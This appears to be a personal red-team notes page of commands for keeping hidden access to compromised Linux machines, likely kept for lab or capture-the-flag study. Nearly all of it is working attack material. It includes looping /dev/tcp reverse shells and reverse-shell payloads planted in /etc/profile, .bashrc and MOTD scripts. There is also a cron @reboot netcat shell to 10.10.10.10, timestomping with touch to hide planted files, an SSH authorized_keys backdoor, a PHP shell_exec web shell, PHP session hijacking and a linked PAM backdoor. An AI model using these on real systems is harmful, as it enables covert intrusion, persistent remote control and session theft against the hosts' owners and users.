 # Linux Persistence

For general overview of persistance that OS neutral: [[Persistence]].

## Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with touch cp the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasign

```bash
# If have sudo or permission to propagate to all users
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$revershell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```



#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
web root /var/www/html
`touch shell.php` and add the below:
Or add within a file of this directory
Change the 'cmd' paramtre to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron
```bash
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
